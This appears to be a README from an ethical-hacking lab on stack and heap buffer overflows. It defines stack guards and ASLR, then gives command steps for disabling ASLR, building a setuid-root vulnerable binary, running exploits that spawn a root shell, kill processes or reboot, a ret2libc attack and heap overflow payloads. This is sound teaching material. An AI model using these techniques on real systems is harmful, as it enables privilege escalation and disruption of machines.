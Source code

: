 # Ethical hacking - Buffer Overflow Exploit

## What is Stack guard? What is ASLR protection?

Stack guard protection is any of various techniques used during software development to enhance the security of executable programs by detecting buffer overflows on stack-allocated variables, and preventing them from causing program misbehavior or from becoming serious security vulnerabilities. It is basically used to prevent stack smashing.

Address space layout randomization (ASLR) is a computer security technique involved in preventing exploitation of memory corruption vulnerabilities. In order to prevent an attacker from reliably jumping to, for example, a particular exploited function in memory, ASLR randomly arranges the address space positions of key data areas of a process, including the base of the executable and the positions of the stack, heap and libraries.

### Perform a stack overflow attack on the stack.c and launch shell as root under when Stack is executable stack and ASLR is turned off

`sudo sysctl -w kernel.randomize_va_space=0`

`sudo gcc -g stack.c -o stack -fno-stack-protector -z execstack`

`sudo chown root:root stack`

`sudo chmod 4755 stack`

`gcc exploit.c -o exp`

`./exp shell`

`./stack`

### Perform a stack overflow attack on the stack.c and launch shell as root and perform seteuid() under when Stack is executable stack and ASLR is turned off

`./exp shell`

`./stack`

### Perform a stack overflow attack on the stack.c and kill all processes when Stack is executable stack and ASLR is turned off

`./exp kill`

`./stack`

### Perform a stack overflow attack on the stack.c and reboot the system when Stack is executable stack and ASLR is turned off

`./exp restart`

`./stack`

### Now turn on ASLR and perform all the previous tasks

We enable the ASLR using this command: `sudo sysctl -w kernel.randomize_va_space=2`

In a BASH script, we call the program in an infinite loop: `sh -c "while [ 1 ]; do ./stack; done;"`

### Turn on a non-executable stack . Perform any ret2libc attack

`sudo gcc stack.c -o stack -fno-stack-protector -z noexecstack`

Then, start GDB with:

`gdb stack`

Type the commands:

`b main`

`r`

`p system` (Note the address)

`p exit` (Note the address)

Run `exploit_retlib.c` to get the addresses for the two components and `getenv.c` to get address for `/bin/sh`.

Add the addresses to the pointers in `exploit_retlib.c`

Then run the code:

`gcc -o exploit exploit_retlib.c`

`./exploit`

`./stack`

### Exploit heap1.c and try to execute executeShell function to launch a shell

`gcc -o heap heap1.c`

In GDB, we set a breakpoint at main and execute the following commmands

`b main`

`r`

`info proc map` (Note the heap address)

`x/50x <heap_address>`

We determine that we need to enter 72 bytes garbage value followed by `executeShell()` address.

`print &executeShell` (Note the address)

`$(python -c "print 'A'*72 + '<hex-address in reverse order>'")`

### Exploit heap2.c and try to execute executeShell function to launch a shell

`gcc -o heap heap2.c`

`print &executeShell` (Note the address)

Get shellcode for assembly code:

`push <address>`

`ret`

Add address to line 28 of `heapBreak.py` and execute script

`./heap $(cat tmpA) $(cat tmpB) $(cat tmp/C)`
